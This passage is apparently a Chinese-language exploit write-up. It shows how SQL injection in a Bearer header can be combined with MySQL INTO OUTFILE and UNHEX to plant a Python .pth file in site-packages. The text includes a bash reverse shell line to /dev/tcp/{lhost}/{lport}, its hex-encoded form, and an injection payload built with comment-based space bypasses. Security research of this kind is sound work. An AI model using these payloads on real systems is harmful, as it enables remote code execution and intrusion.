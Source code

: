但很快我们就遇到了几个问题：  
- 我们的 payload 包含空格 - 这破坏了 sscanf  
调用中的 %128s  
限制  
  
- 更糟糕的是，整个 header 值现在完全超过了 128 字符的限制  
  
那么，如果我们把路径缩短为 /var/log/lib/python3.10/site-packages/a.pth  
呢？  
  
这确实有所帮助...但我们仍然被 import os  
中的空格所困扰。  
  
为了解决这个问题，我们可以使用 MySQL 工具箱中的一个老方法 - UNHEX()  
函数。  
```
UNHEX('41414141') --> AAAA
```  
  
所以我们就直接对 payload 进行 hex 编码然后写入文件？  
  
要是真这么简单就好了。  
  
假设我们尝试一个反向 shell 的 payload——类似这样：  
```
import os; os.system('bash -c "/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1"')
```  
  
最终我们会得到如下代码：  
```
UNHEX('696d706f7274206f733b206f732e73797374656d282762617368202d6320222f62696e2f62617368202d69203e26202f6465762f7463702f312f3220303e2631222729')
```  
  
不幸的是，这超出了最大输入限制。  
  
我们感到沮丧，但突然有了一个想法：与其一次性写入整个 payload，不如将其分块处理？这可行吗？  
  
当然，MySQL 的 INTO OUTFILE  
有一个众所周知的限制——它只能写入新文件。不能追加，不能覆盖。每个文件路径只有一次机会。  
  
但这里有个转折：虽然我们只能对目标文件调用一次 INTO OUTFILE  
，但我们可以在写入前构建内容。  
  
那么，如果我们把 payload 分块存储到另一个列中...然后让 MySQL 将该列的值转储到文件中呢？  
  
查看 fabric_user.user_table  
的 schema 时，一个列立即引起了我们的注意：token  
。完美。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkib3LAXuS9mY44A4wfOXEMMXTWCuvdUbLlICs4ibZo1iaBklzlV6jp22PxQ/640?wx_fmt=png&from=appmsg "")  
  
这样的方法能行得通吗？  
```
Bearer '/**/UNION/**/SELECT/**/token/**/from/**/fabric_user.user_table/**/into/**/outfile/**/'/var/log/lib/python3.10/site-packages/b.pth
```  
  
但又一次 - 上面的查询？137 字节。  
  